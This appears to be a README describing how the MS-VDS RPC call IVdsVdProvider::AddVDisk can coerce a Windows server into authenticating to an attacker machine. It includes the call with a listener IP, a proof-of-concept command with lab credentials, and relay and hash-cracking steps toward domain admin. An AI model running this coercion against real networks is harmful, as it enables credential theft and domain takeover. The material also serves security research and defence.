 # MS-VDS - Remote call to IVdsVdProvider::AddVDisk (opnum 5)

## Summary

 - **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

 - **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVdsVdProvider::AddVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsVdProvider::AddVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsVdProvider::AddVDisk('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddVDisk(
   [in] PVIRTUAL_STORAGE_TYPE VirtualDeviceType,
   [in, string] LPWSTR pPath,
   [out] IVdsVDisk** ppVDisk
 );
```

## References

 - Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

 - Documentation of function `IVdsVdProvider::AddVDisk`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0